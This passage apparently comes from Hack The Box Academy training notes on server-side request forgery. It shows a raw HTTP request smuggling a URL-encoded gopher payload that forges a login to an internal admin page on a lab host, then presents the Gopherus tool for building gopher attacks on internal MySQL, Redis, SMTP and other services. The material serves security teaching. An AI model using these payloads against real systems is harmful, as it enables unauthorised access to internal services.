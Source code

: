 ```http
POST /index.php HTTP/1.1
Host: 172.17.0.2
Content-Length: 265
Content-Type: application/x-www-form-urlencoded

dateserver=gopher%3a//dateserver.htb%3a80/_POST%2520/admin.php%2520HTTP%252F1.1%250D%250AHost%3a%2520dateserver.htb%250D%250AContent-Length%3a%252013%250D%250AContent-Type%3a%2520application/x-www-form-urlencoded%250D%250A%250D%250Aadminpw%253Dadmin&date=2024-01-01
```

As we can see, the internal admin endpoint accepts our provided password, and we can access the admin dashboard:

![image](https://academy.hackthebox.com/storage/modules/145/ssrf/ssrf_exploit_5.png)

We can use the `gopher` protocol to interact with many internal services, not just HTTP servers. Imagine a scenario where we identify, through an SSRF vulnerability, that TCP port 25 is open locally. This is the standard port for SMTP servers. We can use Gopher to interact with this internal SMTP server as well. However, constructing syntactically and semantically correct gopher URLs can take time and effort. Thus, we will utilize the tool [Gopherus](https://github.com/tarunkant/Gopherus) to generate gopher URLs for us. The following services are supported:

```ad-summary
- MySQL
- PostgreSQL
- FastCGI
- Redis
- SMTP
- Zabbix
- pymemcache
- rbmemcache
- phpmemcache
- dmpmemcache
```

To run the tool, we need a valid Python2 installation. Afterward, we can run the tool by executing the Python script downloaded from the GitHub repository:

```shell-session
smoothment@htb[/htb]$ python2.7 gopherus.py

  ________              .__
 /  _____/  ____ ______ |  |__   ___________ __ __  ______
/   \  ___ /  _ \\____ \|  |  \_/ __ \_  __ \  |  \/  ___/
\    \_\  (  <_> )  |_> >   Y  \  ___/|  | \/  |  /\___ \
 \______  /\____/|   __/|___|  /\___  >__|  |____//____  >
        \/       |__|        \/     \/                 \/

                author: $_SpyD3r_$

usage: gopherus.py [-h] [--exploit EXPLOIT]

optional arguments:
  -h, --help         show this help message and exit
  --exploit EXPLOIT  mysql, postgresql, fastcgi, redis, smtp, zabbix,
                     pymemcache, rbmemcache, phpmemcache, dmpmemcache
```
